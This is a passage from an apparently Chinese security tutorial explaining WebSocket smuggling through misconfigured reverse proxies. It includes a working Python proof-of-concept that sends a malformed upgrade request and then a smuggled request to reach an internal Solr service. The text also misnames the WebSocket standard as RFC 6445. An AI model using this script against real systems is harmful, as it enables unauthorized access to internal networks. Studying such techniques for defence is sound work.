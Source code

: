 ## Websocket

其实这部分完全可以作为一个独立的部分，但是感觉篇幅有点长了，这里就做一下简单的介绍，在 Hackactivity 2019 上，@0ang3el 提出了与 Websocket 相关的攻击技术 [What’s wrong with WebSocket APIs? Unveiling vulnerabilities in WebSocket APIs.](https://www.slideshare.net/0ang3el/whats-wrong-with-websocket-apis-unveiling-vulnerabilities-in-websocket-apis)，让我比较感兴趣的则是 Websocket Smuggling 的部分。

作者也把相关的描述放在了 [websocket-smuggle](https://github.com/0ang3el/websocket-smuggle) 这里，这个攻击面是什么呢？帮大家一句话总结就是在 websocket 建立连接时，如果反向代理没有完全严格遵守 RFC 6445 标准，在处理`Sec-WebSocket-Version` 版本错误的情况并没有做好相应的处理，导致了保持了客户端与后端服务器 TCP/TLS 的连接，所以造成了我们可以进行 Smuggling 请求的攻击，这里直接表现为可以通过这种攻击访问内网。

这里我们假设内网存在 solr 服务，外网无法访问，如果存在 websocket smuggling，我们可以编写以下代码访问 solr 服务：

```plain
import socket 

req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
Host: ip:port
Sec-WebSocket-Version: 1338
Upgrade: websocket

""".replace('\n', '\r\n')

req2 = """GET /solr/#/ HTTP/1.1
Host: localhost:8983

""".replace('\n', '\r\n')

def main(netloc):
    host, port = netloc.split(':')

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, int(port)))

    sock.sendall(req1)
    sock.recv(4096)

    sock.sendall(req2)
    # print req2
    data = sock.recv(4096)
    data = data.decode(errors = 'ignore')
    print(data)
    data = sock.recv(4096)
    data = data.decode(errors = 'ignore')
    print(data)

    sock.shutdown(socket.SHUT_RDWR)
    sock.close()

if __name__ == "__main__":
    main('ip:port')
```
